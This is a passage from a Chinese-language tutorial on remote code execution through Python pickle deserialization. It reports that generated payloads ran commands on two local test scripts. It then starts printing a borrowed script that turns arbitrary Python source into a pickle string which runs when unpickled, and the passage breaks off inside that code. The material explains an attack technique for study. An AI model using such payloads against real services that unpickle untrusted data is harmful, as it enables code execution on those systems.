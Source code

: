 
将以上代码生成的payload分别用于pickle_verify.py和pickle_verify_httpserver.py中进行测试。均成功执行命令。

注意：用于pickle_verify_httpserver.py的payload和上面一样还是需要url编码后的。

图二：

![Image2](img/PickleRCE/Image2.png)

——————–分割线（另外一段不成熟payload生成代码的分析）—————————————

在网上看到了另外一个生成代码：<https://gist.github.com/freddyb/3360650>

我们看一下他的代码并尝试利用上面的序列化规则“翻译”一下：

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'
__filename__ = 'pickle_poc_gen1.py'
#from https://gist.github.com/freddyb/3360650

try:
    import cPickle as pickle
except ImportError:
    import pickle

from sys import argv

def picklecompiler(sourcefile):
    """ 
    Usually pickle can only be used to (de)serialize objects.
    This tiny snippet will allow you to transform arbitrary python source
    code into a pickle string. Unpickling this string with pickle.loads()
    will execute the given soruce code.
    The trick is actually prettey easy: Usually eval() will only accept
    expressions, thus class and function declarations does not work.
    Using the work-around of code objects (returned by compile()), we can
    execute real python source code :)
```